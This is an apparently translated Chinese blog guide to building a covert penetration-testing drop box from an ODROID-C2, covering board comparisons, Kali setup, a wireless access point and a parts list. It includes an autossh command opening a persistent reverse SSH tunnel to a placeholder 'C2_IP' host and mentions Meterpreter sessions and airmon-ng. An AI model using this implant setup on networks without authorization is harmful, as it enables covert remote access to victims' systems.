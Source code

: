 ```yaml
---
date: 2025-08-07T19:08:11+08:00
title: 如何构建自己的渗透测试投放设备 - ODROID-C2实战指南
tags: [渗透测试,硬件黑客,红队工具,Kali Linux]
authors: qife
description: 本文详细对比了三种单板计算机作为渗透测试投放设备的性能，重点推荐ODROID-C2方案。包含硬件选型、Kali Linux系统配置、无线AP搭建、自动化SSH隧道等完整技术实现，总成本约110美元。
---
```


# 如何构建自己的渗透测试投放设备

**作者**：Beau Bullock // 红队工具专家

## 摘要
本文对比测试了三款单板计算机（SBC）作为"渗透测试投放设备"的性能表现，重点推荐Hardkernel公司的ODROID-C2方案。完整构建指南包含硬件组装、Kali Linux系统配置、无线接入点搭建和持久化SSH隧道等技术细节，总成本控制在110美元左右。

## 设备需求分析
在零售企业红队演练中，作者需要满足以下核心需求：
- 隐蔽物理尺寸（可藏于办公桌下）
- 支持无线控制（最好能多网卡并发）
- 持久化SSH反向隧道
- 完整渗透测试OS环境（非单纯跳板）
- 32-64GB存储空间
- 硬件性能满足实战需求

## 硬件对比测试
测试机型及关键参数：

| 规格            | Raspberry Pi 3 | BeagleBone Black | ODROID-C2       |
|-----------------|----------------|------------------|-----------------|
| 处理器          | 1.2GHz四核Cortex-A53 | 1GHz Cortex-A8 | 2GHz四核Cortex-A53 |
| 内存            | 1GB LPDDR2     | 512MB DDR3       | 2GB DDR3        |
| 存储            | microSD        | 4GB eMMC + microSD | eMMC/microSD    |
| 网络            | 10/100Mbps + WiFi | 10/100Mbps    | 千兆以太网       |

**性能测试结果**：
- 启动速度：ODROID-C2比树莓派3快1分钟，比BeagleBone快2分钟
- 磁盘读写：eMMC模块的ODROID-C2比microSD方案快15倍
- 密码破解：John the Ripper基准测试ODROID-C2显著领先

## 系统配置详解
### Kali Linux安装
1. 下载官方ARM镜像
2. 使用Win32DiskImager或dd命令写入eMMC
3. 解决已知启动问题：
```bash
mount /dev/mmcblk0p1 /boot
echo '/dev/mmcblk0p1 /boot auto defaults 0 0' >> /etc/fstab
```

### 无线接入点配置
```bash
apt-get install hostapd dnsmasq
nano /etc/hostapd/hostapd.conf
```
配置文件示例：
```ini
interface=wlan0
ssid=pentest_ap
channel=6
wpa_passphrase=securepassword
wpa_key_mgmt=WPA-PSK
```

### 持久化SSH隧道
```bash
autossh -M 11166 -N -f -o "PubkeyAuthentication=yes" -i /root/.ssh/id_rsa -R 6667:localhost:22 root@C2_IP
```

## 实战部署经验
在真实红队行动中，该设备成功：
- 通过无线接口绕过DHCP限制
- 维持3天稳定SSH隧道
- 并发处理多个Meterpreter会话
- 执行网络扫描和漏洞利用

## 完整配件清单
- ODROID-C2主板 $41.95
- 32GB eMMC模块 $42.95
- RT5370芯片无线网卡 $11.99
- 带风扇外壳 $9.99
- 电源适配器 $6.99

> 特别提示：部署时建议准备备用无线网卡用于攻击模式切换（`airmon-ng start wlan1`）